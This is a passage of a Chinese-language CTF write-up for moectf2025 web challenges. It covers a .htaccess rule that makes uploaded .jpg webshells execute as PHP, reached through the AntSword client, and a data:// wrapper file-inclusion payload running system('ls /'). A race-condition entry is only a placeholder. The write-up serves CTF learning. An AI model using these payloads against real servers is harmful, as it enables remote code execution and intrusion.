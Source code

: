 我们能够操作的只有 `/uploads` 这一特定目录，无法访问 httpd.conf 配置，故进一步了解 .htaccess 文件: [http://developer.mozilla.org/en-US/docs/Learn_web_development/Extensions/Server-side/Apache_Configuration_htaccess](http://developer.mozilla.org/en-US/docs/Learn_web_development/Extensions/Server-side/Apache_Configuration_htaccess)

我们的思路就是通过 `.htaccess` 重写服务器识别我们上传的图片马的逻辑，使我们对其的请求被识别为 PHP 页面。

```xml
<FilesMatch "\.(jpg|jpeg)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

先上传这个 `.htaccess` 文件，再上传 .jpg 格式的图片马，就能够顺利连接上蚁剑了

![image.png](./moectf2025wp/image_36.png)

## [竞争条件攻击] 15 第十五章 归真关·竞时净魔

占位：竞争条件攻击（Race Condition）思路记录。

---

## [文件包含 + data 伪协议] 16 第十六章 昆仑星途

简单的文件包含绕过，考察了 data 伪协议。构造payload: `?file=data://text/plain,<?php system('ls /'); ?>` 添加的 `.php` 会被排斥于 `>` 外。

![image.png](./moectf2025wp/image_46.png)

---